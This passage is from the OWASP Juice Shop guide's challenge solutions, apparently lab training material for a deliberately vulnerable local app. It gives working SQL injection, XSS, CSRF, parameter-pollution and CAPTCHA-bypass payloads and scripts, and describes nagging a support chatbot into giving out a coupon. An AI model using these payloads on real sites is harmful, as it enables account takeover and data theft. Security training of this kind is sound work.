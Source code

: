 = Challenge solutions

All URLs in the challenge solutions assume you are running the
application locally and on the default port http://localhost:3000.
Change the URL accordingly if you use a different root URL.

Often there are multiple ways to solve a challenge. In most cases just
one possible solution is presented here. This is typically the easiest
or most obvious one from the author's perspective.

_The challenge solutions found in this release of the companion guide
are compatible with {juiceShopVersion} of OWASP Juice Shop._

== ⭐ Challenges

=== Receive a coupon code from the support chatbot

. Log in as any user.
. Click _Support Chat_ in the sidebar menu to visit
http://localhost:3000/#/chatbot.
. After telling the chatbot your name you can start chatting with it.
. Ask it something similar to "Can I have a coupon code?" or "Please
give me a discount!" and it will most likely decline with some
unlikely excuse.
. Keep asking for discount again and again until you finally receive a
10% coupon code for the current month! This also solves the challenge
immediately.

=== Use the bonus payload in the DOM XSS challenge

. Solve the <<perform-a-dom-xss-attack,Perform a DOM XSS attack>>
challenge
. Turn on your computer's speakers!
. Paste the payload `+<iframe width="100%" height="166" scrolling="no"
frameborder="no" allow="autoplay"
src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>+`
into the _Search..._ field and hit Enter
. Enjoy the excellent acoustic entertainment!

=== Access a confidential document

. Follow the link to titled _Check out our boring terms of use if you
are interested in such lame stuff_
(http://localhost:3000/ftp/legal.adoc) on the _About Us_ page.
. Successfully attempt to browse the directory by changing the URL into
http://localhost:3000/ftp
+
image::appendix/ftp_directory.png[FTP directory browser]

. Open http://localhost:3000/ftp/acquisitions.adoc to solve the
challenge.

=== Provoke an error that is neither very gracefully nor consistently handled

Any request that cannot be properly handled by the server will
eventually be passed to a global error handling component that sends an
error page to the client that includes a stack trace and other sensitive
information. The restful API behaves similarly, passing back a JSON
error object with sensitive data, such as SQL query strings.

Here are two examples (out of many ways) to provoke such an error
situation and solve this challenge immediately:

* Visit http://localhost:3000/rest/qwertz
+
image::appendix/error_page-500.png[500 Error]

* Log in to the application with `'` (single-quote) as _Email_ and
anything as _Password_
+
image:appendix/login-error_js.png[Object Error in Login form]
image:appendix/error_js-console.png[SQL error in JS console]

=== Find the endpoint that serves usage data to be scraped by a popular monitoring system

. Scroll through https://prometheus.io/docs/introduction/first_steps
. You should notice several mentions of `/metrics` as the default path
scraped by Prometheus, e.g. "Prometheus expects metrics to be
available on targets on a path of `/metrics`."
. Visit http://localhost:3000/metrics to view the actual Prometheus
metrics of the Juice Shop and solve this challenge

=== Close multiple "Challenge solved"-notifications in one go

. Read the xref:../part1/challenges.adoc#_success_notifications[Success Notifications] section
. It will explain that `Shift`-clicking the _X_-button on any "Challenge solved"-notification will close all open notifications of this kind
. Solve any other challenge (or multiple) and then `Shift`-click the _X_-button on it to solve this challenge

If you already have solved all but this challenge, you can just restart your Juice Shop instance to see all previous notifications again and then perform step 3 as described above.

=== Retrieve the photo of Bjoern's cat in "melee combat-mode"

. Visit http://localhost:3000/#/photo-wall
. Right-click _Inspect_ the broken image in the entry labeled "😼
#zatschi #whoneedsfourlegs"
. You should find an image tag similar to `<img _ngcontent-akt-c18=""
class="image"
src="assets/public/images/uploads/😼-#zatschi-#whoneedsfourlegs-1572600969477.jpg"
alt="😼 #zatschi #whoneedsfourlegs">` in the source
. Right-click _Open in new tab_ the `src` element of the image
. Observe (in your DevTools _Network_ tab) that the request sent to the
server is
http://localhost:3000/assets/public/images/uploads/%F0%9F%98%BC-
. The culprit here are the two `#` characters in the URL, which are no
problem for your OS in a filename, but are interpreted by your
browser as HTML anchors. Thus, they are not transmitted to the server
at all.
. To get them over to the server intact, they must obviously be
URL-encoded into `%23`
. Open
http://localhost:3000/assets/public/images/uploads/😼-%23zatschi-%23whoneedsfourlegs-1572600969477.jpg
and enjoy the incredibly cute photo of this pet being happy despite
missing half a hind leg
. Go back to the application, and the challenge will be solved.

image::appendix/zaya_melee.jpg[Zaya in melee combat mode]

=== Let us redirect you to one of our crypto currency addresses

. Log in to the application with any user.
. Visit the _Your Basket_ page and expand the _Payment_ and
_Merchandise_ sections with the "credit card"-button.
. Perceive that all donation links are passed through the `to`
parameter of the route `/redirect`
. Open `main.js` in your browser's DevTools
. Searching for `/redirect?to=` and stepping through all matches you
will notice three functions that are called only from hidden buttons
on the _Your Basket_ page:
+
image::appendix/cryptoLinks.png[Hidden crypto currency link functions]

. Open one of the three, e.g.
http://localhost:3000/redirect?to=https://blockchain.info/address/1AbKfgvw9psQ41NbLi8kufDQTezwG8DRZm
to solve the challenge.

=== Read our privacy policy

. Log in to the application with any user.
. Open the dropdown menu on your profile picture and choose _Privacy &
Security_.
. You will find yourself on
http://localhost:3000/#/privacy-security/privacy-policy which
instantly solves this challenge for you.

=== Follow the DRY principle while registering a user

. Go to http://localhost:3000/#/register.
. Fill out all required information except the _Password_ and _Repeat
Password_ field.
. Type e.g. `12345` into the _Password_ field.
. Now type `12345` into the _Repeat Password_ field. While typing the
numbers you will see _Passwords do not match_ errors until you reach
`12345`.
. Finally, go back to the _Password_ field and change it into any other
password. The _Repeat Password_ field does not show the expected
error.
. Submit the form with _Register_ which will solve this challenge.

=== Find the carefully hidden 'Score Board' page

. Go to the _Sources_ tab of your browsers DevTools and open the
`main.js` file.
. If your browser offers pretty-printing of this minified messy code,
best use this offer. In Chrome this can be done with the "{}"-button.
. Search for `score` and iterate through each finding to come across
one looking like a route mapping section:
+
image::appendix/score-board_route.png[Route Mapping the the Score Board]

. Navigate to http://localhost:3000/#/score-board to solve the
challenge.
. From now on you will see the additional menu item _Score Board_ in
the navigation bar.

=== Perform a DOM XSS attack

. Paste the attack string `<iframe src="javascript:alert(`xss`)">`
into the _Search..._ field.
. Hit the Enter key.
. An alert box with the text "xss" should appear.
+
image::appendix/xss1_alert.png[XSS alert box]

=== Give a devastating zero-star feedback to the store

Place an order that makes you rich. Visit the _Contact Us_ form and put
in a _Comment_ text. Also solve the CAPTCHA at the bottom of the form.

. The _Submit_ button is still *disabled* because you did not select
a _Rating_ yet.
. Inspect the _Submit_ button with your DevTools and note the
`disabled` attribute of the `<button>` HTML tag
. Double click on `disabled` attribute to select it and then delete it
from the tag.
+
image::appendix/contact_disabled_submit-button.png[Disabled Submit Button in Contact Us form]

. The _Submit_ button is now *enabled*.
. Click the _Submit_ button to solve the challenge.
. You can verify the feedback was saved by checking the _Customer
Feedback_ widget on the _About Us_ page.
+
image::appendix/zero_star_feedback-carousel.png[Zero star feedback in carousel]

== ⭐⭐ Challenges

=== Access the administration section of the store

. Open the `main.js` in your browser's developer tools and
search for "admin".
. One of the matches will be a route mapping to `path:
"administration"`.
+
image::appendix/minified_js-admin.png[Administration page route in main.js]

. Navigating to http://localhost:3000/#/administration will give a `403
Forbidden` error.
. Log in to an administrator's account by solving the challenge
 ** <<log-in-with-the-administrators-user-account,Log in with the administrator's user account>>
or
 ** <<log-in-with-the-administrators-user-credentials-without-previously-changing-them-or-applying-sql-injection,Log in with the administrator's user credentials without previously changing them or applying SQL Injection>>
first and then navigate to http://localhost:3000/#/administration
will solve the challenge.

=== View another user's shopping basket

. Log in as any user.
. Put some products into your shopping basket.
. Inspect the _Session Storage_ in your browser's developer tools to
find a numeric `bid` value.
+
image::appendix/session_storage.png[Basket ID in Session Storage]

. Change the `bid`, e.g. by adding or subtracting 1 from its value.
. Visit http://localhost:3000/#/basket to solve the challenge.

If the challenge is not immediately solved, you might have to
`F5`-reload to relay the `bid` change to the Angular client.

=== Use a deprecated B2B interface that was not properly shut down

. Log in as any user.
. Click _Complain?_ in the _Contact Us_ dropdown to go to the _File
Complaint_ form
. Clicking the file upload button for _Invoice_ and browsing some
directories you might notice that `.pdf` and `.zip` files are
filtered by default
. Trying to upload another other file will probably give you an error
message on the UI stating exactly that: `Forbidden file type. Only
PDF, ZIP allowed.`
. Open the `main.js` in your DevTools and find the declaration
of the file upload (e.g. by searching for `zip`)
. In the `allowedMimeType` array you will notice `"application/xml"`
and `"text/xml"` along with the expected PDF and ZIP types
+
image::appendix/complaint_xml_mime-type.png[Possible XML upload spoilered in main.js]

. Click on the _Choose File_ button.
. In the _File Name_ field enter `*.xml` and select any arbitrary XML
file (<100KB) you have available. Then press _Open_.
. Enter some _Message_ text and press _Submit_ to solve the challenge.
. On the JavaScript Console of your browser you will see a suspicious
`410 (Gone)` HTTP Error. In the corresponding entry in the Network
section of your browser's DevTools, you should see an error message,
telling you that `B2B customer complaints via file upload have been
deprecated for security reasons!`

=== Get rid of all 5-star customer feedback

. Log in to the application with any user.
. Solve
<<access-the-administration-section-of-the-store,Access the administration section of the store>>
+
image::appendix/customer_feedback-table.png[Feedback table on Administration page]

. Delete all entries with five star rating from the _Customer Feedback_
table using the trashcan button

=== Log in with the administrator's user account

* Log in with _Email_ `' or 1=1--` and any _Password_ which will
authenticate the first entry in the `Users` table which coincidentally
happens to be the administrator
* or log in with _Email_ `admin@juice-sh.op'--` and any _Password_ if
you already know the email address of the administrator
* or log in with _Email_ `admin@juice-sh.op` and _Password_ `admin123`
if you looked up the administrator's password hash
`0192023a7bbd73250516f069df18b500` in a rainbow table after harvesting
the user data by
<<retrieve-a-list-of-all-user-credentials-via-sql-injection,retrieving a list of all user credentials via SQL Injection>>.

=== Log in with MC SafeSearch's original user credentials

. Reading the hints for this challenge or googling "MC SafeSearch" will
eventually bring the music video
https://www.youtube.com/watch?v=v59CX2DiX0Y["Protect Ya' Passwordz"]
to your attention.
. Watch this video to learn that MC used the name of his dog "Mr.
Noodles" as a password but changed "some vowels into zeroes".
. Visit http://localhost:3000/#/login and log in with _Email_
`mc.safesearch@juice-sh.op` and _Password_ `Mr. N00dles` to solve
this challenge.

=== Log in with the administrator's user credentials without previously changing them or applying SQL Injection

. Visit http://localhost:3000/#/login.
. Log in with _Email_ `admin@juice-sh.op` and _Password_ `admin123`
which is as easy to guess as it is to brute force or retrieve from a
rainbow table.

=== Behave like any "white hat" should before getting into the action

. Visit https://securitytxt.org/ to learn about a proposed standard
which allows websites to define security policies.
. Request the security policy file from the server at
http://localhost:3000/.well-known/security.txt or
http://localhost:3000/security.txt to solve the challenge.
. Optionally, write an email to the mentioned contact address
link:mailto:donotreply@owasp-juice.shop[donotreply@owasp-juice.shop] and see what happens... :e-mail:

=== Inform the shop about an algorithm or library it should definitely not use the way it does

Juice Shop uses some inappropriate crypto algorithms and libraries in
different places. While working on the following topics (and having the
`package.json.bak` at hand) you will learn those inappropriate choices
in order to exploit and solve them:

* <<forge-a-coupon-code-that-gives-you-a-discount-of-at-least-80,Forge a coupon code that gives you a discount of at least 80%>>
exploits `z85` (Zero-MQ Base85 implementation) as the library for
coupon codes.
* <<solve-challenge-999,Solve challenge #999>> requires you to create a
valid hash with the `hashid` library.
* Passwords in the `Users` table are hashed with unsalted MD5
* Users registering via Google account will receive a very silly default
password that involves Base64 encoding.

//

. Visit http://localhost:3000/#/contact.
. Submit your feedback with one of the following words in the comment:
`z85`, `base85`, `base64`, `md5` or `hashid`.

=== Perform a reflected XSS attack

. Log in as any user.
. Do some shopping and then visit the _Order History_.
. Clicking on the little "Truck" button for any of your orders will
show you the delivery status of your order.
. Notice the `id` parameter in the URL
http://localhost:3000/#/track-result?id=fe01-f885a0915b79f2a9 with
`fe01-f885a0915b79f2a9` being one of your order numbers?
. As the `fe01-f885a0915b79f2a9` is displayed on the screen, it might
be susceptible to an XSS attack.
. Paste the attack string `<iframe src="javascript:alert(`xss`)">`
into that URL so that you have
http://localhost:3000/#/track-result?id=%3Ciframe%20src%3D%22javascript:alert(%60xss%60)%22%3E
. Refresh that URL to get the XSS payload executed and the challenge
marked as solved.
+
image::appendix/xss0_alert.png[XSS alert box]

=== Determine the answer to John's security question

. Go to the photo wall and search for the photo that has been posted by
the user `j0hNny`.
. Download that photo.
. Check the metadata of the photo. You can use various tools online
like http://exif.regex.info/exif.cgi
. When viewing the metadata, you can see the coordinates of where the
photo was taken. The coordinates are `36.958717N 84.348217W`
. Search for these coordinates on Google to find out in which forest
the photo was taken. It can be seen that the `Daniel Boone National
Forest` is located on these coordinates.
. Go to the login page and click on _Forgot your password?_.
. Fill in `john@juice-sh.op` as the email and `Daniel Boone National
Forest` as the answer of the security question.
. Choose a new password and click on _Change_.

=== Determine the answer to Emma's security question

. Go to the photo wall and search for the photo that has been posted by
the user `E=ma²`.
. Open the image so that you can zoom in on it.
. On the far left window on the middle floor, you can see a logo of a
company. It can be seen that logo shows the name `ITsec`.
. Go to the login page and click on _Forgot your password?_.
. Fill in `emma@juice-sh.op` as the email and `ITsec` as the answer of
the security question.
. Choose a new password and click on _Change_.

== ⭐⭐⭐ Challenges

=== Register as a user with administrator privileges

. Submit a `POST` request to http://localhost:3000/api/Users with:
 ** `{"email":"admin","password":"admin","role":"admin"}` as body
 ** and `application/json` as `Content-Type`

+
image::appendix/register-admin_postman.png[Admin user registration request via Postman]
. Upon your next visit to the application's web UI the challenge will
be marked as solved.

=== Put an additional product into another user's shopping basket

. Log in as any user.
. Inspect HTTP traffic while putting items into your own shopping
basket to learn your own `BasketId`. For this solution we assume
yours is `1` and another user's basket with a `BasketId` of `2`
exists.
. Submit a `POST` request to http://localhost:3000/api/BasketItems
with payload as `{"ProductId": 14,"BasketId": "2","quantity": 1}`
making sure no product of that with `ProductId` of `14` is already in
the target basket. Make sure to supply your `Authorization Bearer`
token in the request header.
. You will receive a (probably unexpected) response of `{'error' :
'Invalid BasketId'}` - after all, it is not your basket!
. Change your `POST` request into utilizing HTTP Parameter Pollution
(HPP) by supplying your own `BasketId` _and_ that of someone else in
the same payload, i.e. `{"ProductId": 14,"BasketId": "1","quantity":
1,"BasketId": "2"}`.
. Submitting this request will satisfy the validation based on your own
`BasketId` but put the product into the other basket!

ℹ️ With other ``BasketId``s you might need to play with the order of the
duplicate property a bit and/or make sure your own `BasketId` is lower
than the one of the target basket to make this HPP vulnerability work in
your favor.

____
Supplying multiple HTTP parameters with the same name may cause an
application to interpret values in unanticipated ways. By exploiting
these effects, an attacker may be able to bypass input validation,
trigger application errors or modify internal variables values. As
HTTP Parameter Pollution (in short HPP) affects a building block of
all web technologies, server and client side attacks exist.

Current HTTP standards do not include guidance on how to interpret
multiple input parameters with the same name. For instance, RFC 3986
simply defines the term Query String as a series of field-value pairs
and RFC 2396 defines classes of reserved and unreserved query string
characters. Without a standard in place, web application components
handle this edge case in a variety of ways (see the table below for
details).

By itself, this is not necessarily an indication of vulnerability.
However, if the developer is not aware of the problem, the presence of
duplicated parameters may produce an anomalous behavior in the
application that can be potentially exploited by an attacker. As often
in security, unexpected behaviors are a usual source of weaknesses
that could lead to HTTP Parameter Pollution attacks in this case. To
better introduce this class of vulnerabilities and the outcome of HPP
attacks, it is interesting to analyze some real-life examples that
have been discovered in the past. footnote:7[https://wiki.owasp.org/index.php/Testing_for_HTTP_Parameter_pollution_(OTG-INPVAL-004)]
____

=== Submit 10 or more customer feedbacks within 10 seconds

. Open the Network tab of your browser DevTools and visit
http://localhost:3000/#/contact
. You should notice a `GET` request to
http://localhost:3000/rest/captcha/ which retrieves the CAPTCHA for
the feedback form. The HTTP response body will look similar to
`{"captchaId":18,"captcha":"5*8*8","answer":"320"}`.
. Fill out the form normally and submit it while checking the backend
interaction in your Developer Tools. The CAPTCHA identifier and
solution are transmitted along with the feedback in the request body:
`{comment: "Hello", rating: 1, captcha: "320", captchaId: 18}`
. You will notice that a new CAPTCHA is retrieved from the REST
endpoint. It will present a different math challenge, e.g.
`{"captchaId":19,"captcha":"1*1-1","answer":"0"}`
. Write another feedback but before sending it, change the `captchaId`
and `captcha` parameters to the previous values of `captchaId` and
`answer`. In this example you would submit `captcha: "320",
captchaId: 18` instead of `captcha: "0", captchaId: 19`.
. The server will accept your feedback, telling your that the CAPTCHA
can be pinned to any previous one you like.
. Write a script with a 10-iteration loop that submits feedback using
your pinned `captchaId` and `captcha` parameters. Running this script
will solve the challenge.

Two alternate (but more complex) solutions:

* Rewrite your script so that it _parses the response from each CAPTCHA
retrieval call_ to http://localhost:3000/rest/captcha/ and sets the
extracted `captchaId` and `answer` parameters in each subsequent form
submission as `captchaId` and `captcha`.
* Using an automated browser test tool like
https://www.seleniumhq.org/[Selenium WebDriver] you could do the
following:
 .. Read the CAPTCHA question from the HTML element `+<code id="captcha"
...>+`
 .. Calculate the result on the fly using JavaScript
 .. Let WebDriver write the answer into the `+<input
name="feedbackCaptcha" ...>+` field.

The latter is actually the way it is implemented in the end-to-end test
for this challenge:

[,javascript]
----
  describe('challenge "captchaBypass"', () => {
   it('should be possible to post 10 or more customer feedbacks in less than 20 seconds', () => {
      cy.window().then(async () => {
         for (let i = 0; i < 15; i++) {
            const response = await fetch(
                    `${Cypress.env('baseUrl')}/rest/captcha/`,
                    {
                       method: 'GET',
                       headers: {
                          'Content-type': 'text/plain'
                       }
                    }
            )
            if (response.status === 200) {
               const responseJson = await response.json()

               await sendPostRequest(responseJson)
            }

            async function sendPostRequest (captcha: {
               captchaId: number
               answer: string
            }) {
               await fetch(`${Cypress.env('baseUrl')}/api/Feedbacks`, {
                  method: 'POST',
                  cache: 'no-cache',
                  headers: {
                     'Content-type': 'application/json'
                  },
                  body: JSON.stringify({
                     captchaId: captcha.captchaId,
                     captcha: `${captcha.answer}`,
                     comment: `Spam #${i}`,
                     rating: 3
                  })
               })
            }
         }
      })
      cy.expectChallengeSolved({ challenge: 'CAPTCHA Bypass' })
   })
})
----

_It is worth noting that both alternate solutions would still work even
if the CAPTCHA-pinning problem would be fixed in the application!_

Last but not least, the following
https://github.com/aaronhnatiw/race-the-web[RaceTheWeb] config could
be used to solve this challenge. Other than the two above alternate
solutions, this one relies on CAPTCHA-pinning:

[,toml]
----
# CAPTCHA Bypass
# Save this as captcha-bypass.toml
# Get Captcha information from this endpoint first: http://localhost:3000/rest/captcha/
# Then replace captchaId and captcha values in body parameter of this file
# Launch this file by doing ./racethweb captcha-bypass.toml
count = 10
verbose = true
[[requests]]
    method = "POST"
    url = "http://localhost:3000/api/Feedbacks/"
    body = "{\"captchaId\":12,\"captcha\":\"-1\",\"comment\":\"pwned2\",\"rating\":5}"
    headers = ["Content-Type: application/json"]
----

=== Change the name of a user by performing Cross-Site Request Forgery from another origin

. Open Juice Shop in a web browser which sets cookies with `SameSite=None`
by default. With Firefox 96.x or Chrome 79.x this has been successfully tested, but feel free to try other browsers at your leisure.
. Login with any user account. This user is going to be the victim of
the CSRF attack.
. Navigate to http://htmledit.squarefree.com in the same browser. It
is intentional that the site is accessed without TLS, as otherwise
there might be issues with the mixed-content policy of the browser.
. In the upper frame of the page, paste the following HTML fragment,
which contains a self-submitting HTML form:

[,html]
----
<form action="http://localhost:3000/profile" method="POST">
  <input name="username" value="CSRF"/>
  <input type="submit"/>
</form>
<script>document.forms[0].submit();</script>
----

. The attack is performed immediately. You will see an error message or
a blank page in the lower frame, because even though the online HTML
editor is allowed to send requests to Juice Shop, it is not permitted
to embed the response.
. Verify that the username got changed to "CSRF" by checking the
http://localhost:3000/profile[profile page].

In an actual attack scenario, the attacker will try to trick a
legitimate user into opening an attacker-controlled website. If the
victim is simultaneously logged into the target website, the requested
that is generated by the malicious form in step 3 is authenticated with
the victim's session. The attacker has also options to hide the
automatically issued request, for example by embedding it into an inline
frame of zero height and width.

=== Exfiltrate the entire DB schema definition via SQL Injection

. From any errors seen during previous SQL Injection attempts you
should know that SQLite is the relational database in use.
. Check https://www.sqlite.org/faq.html to learn in "(7) How do I
list all tables/indices contained in an SQLite database" that the
schema is stored in a system table `sqlite_master`.
. You will also learn that this table contains a column `sql` which
holds the text of the original `CREATE TABLE` or `CREATE INDEX`
statement that created the table or index. Getting your hands on this
would allow you to replicate the entire DB schema.
. During the
<<order-the-christmas-special-offer-of-2014,Order the Christmas special offer of 2014>>
challenge you learned that the `/rest/products/search` endpoint is
susceptible to SQL Injection into the `q` parameter.
. The attack payload you need to craft is a `UNION SELECT` merging the
data from the `sqlite_master` table into the products returned in the
JSON result.
. As a starting point we use the known working `'))--` attack pattern
and try to make a `UNION SELECT` out of it
. Searching for `')) UNION SELECT * FROM x--` fails with a
`SQLITE_ERROR: no such table: x` as you would expect.
. Searching for `')) UNION SELECT * FROM sqlite_master--` fails with a
promising `SQLITE_ERROR: SELECTs to the left and right of UNION do
not have the same number of result columns` which least confirms the
table name.
. The next step in a `UNION SELECT`-attack is typically to find the
right number of returned columns. As the _Search Results_ table in
the UI has 3 columns displaying data, it will probably at least be
three. You keep adding columns until no more `SQLITE_ERROR` occurs
(or at least it becomes a different one):
 .. `')) UNION SELECT '1' FROM sqlite_master--` fails with `number of
result columns` error
 .. `')) UNION SELECT '1', '2' FROM sqlite_master--` fails with
`number of result columns` error
 .. `')) UNION SELECT '1', '2', '3' FROM sqlite_master--` fails with
`number of result columns` error
 .. (...)
 .. `')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8' FROM
sqlite_master--` _still fails_ with `number of result columns`
error
 .. `')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM
sqlite_master--` finally gives you a JSON response back with an
extra element
`{"id":"1","name":"2","description":"3","price":"4","deluxePrice":"5","image":"6","createdAt":"7","updatedAt":"8","deletedAt":"9"}`.
. Next you get rid of the unwanted product results changing the query
into something like `qwert')) UNION SELECT '1', '2', '3', '4', '5',
'6', '7', '8', '9' FROM sqlite_master--` leaving only the
"``UNION``ed" element in the result set
. The last step is to replace one of the fixed values with correct
column name `sql`, which is why searching for `qwert')) UNION SELECT
sql, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--`
solves the challenge.

=== Obtain a Deluxe Membership without paying for it

. If wallet is empty: a. Go to
http://localhost:3000/#/payment/deluxe and look at the
available payment options for upgrading to a deluxe account b. Open
devtools and inspect the pay button next to the "pay using wallet"
option. c. Remove the disabled="true" attribute from the element to
enable it. d. Switch to the network tab and devtools and click on the
button to initiate payment e. See that there is a POST request sent,
which only contains one parameter in the request payload,
"paymentMode", which is set to "wallet". The response contains an
error saying your wallet doesn't contain sufficient funds d. Right
click on the request and select "edit and resend" e. Change the
paymentMode parameter to an empty string and press send. This solves
the challenge and juice-shop no longer knows where to deduct the
money from
. If wallet isn't empty: a. If your wallet contains funds, you cannot
start a dummy transaction to inspect the request structure because
then you would be automatically upgraded to deluxe. b. Set up a proxy
like OWASP ZAP, Fiddler aur Burp Suite. c. Click on the pay button d.
Intercept and edit the request as described above before forwarding
it.

=== Post some feedback in another user's name

. Go to the _Contact Us_ form on http://localhost:3000/#/contact.
. Inspect the DOM of the form in your browser to spot this suspicious
text field right at the top: `<input _ngcontent-c23 hidden
id="userId" type="text" class="ng-untouched ng-pristine ng-valid">`
+
image::appendix/hidden_textfield.png[Hidden text field on Contact Us form]

. In your browser's developer tools remove the `hidden` attribute from
above `<input>` tag.
+
image::appendix/spoofed_feedback.png[Spoofed feedback ready for submit]

. The field should now be visible in your browser. Type any user's
database identifier in there (other than your own if you are
currently logged in) and submit the feedback.

You can also solve this challenge by directly sending a `POST` to
http://localhost:3000/api/Feedbacks endpoint. You could for example be
logged out but provide any `UserId` in the JSON payload.

=== Post a product review as another user or edit any user's existing review

. Select any product and write a review for it
image:appendix/normal_review.png[Simple product review]
. Submit the review while observing the `Networks` tab of your browser.
. Analyze the `PUT` request.
image:appendix/normal_review_request.png[normal product request]
. Change the author name to `admin@juice-sh.op` in `Request Body` and
re-send the request.

=== Log in with Chris' erased user account

* Log in with _Email_ `chris.pike@juice-sh.op'--` and any _Password_ if
you already know the email address of Chris.
* or log in with _Email_ as `\' or deletedAt IS NOT NULL--` and any
_Password_ you like for a "lucky hit" as Chris seems to be the only or
at least first ever deleted user. The presence of `deletedAt` you
might have derived from
<<retrieve-a-list-of-all-user-credentials-via-sql-injection,Retrieve a list of all user credentials via SQL Injection>>
and enforcing it to be `NOT NULL` will give you back only users who
were soft-deleted at some point of time.

=== Log in with Amy's original user credentials

. Google for either `93.83 billion trillion trillion centuries` or `One
Important Final Note`.
. Both searches should show https://www.grc.com/haystack.htm as one
of the top hits.
. After reading up on _Password Padding_ try the example password
`+D0g.....................+`
. She actually did a very similar padding trick, just with the name of
her husband _Kif_ written as _K1f_ instead of _D0g_ from the example!
She did not even bother changing the padding length!
. Visit http://localhost:3000/#/login and log in with credentials
`amy@juice-sh.op` and password `+K1f.....................+` to solve
the challenge

=== Log in with Bender's user account

* Log in with _Email_ `bender@juice-sh.op'--` and any _Password_ if you
already know the email address of Bender.
* A rainbow table attack on Bender's password will probably fail as it
is rather strong. You can alternatively solve
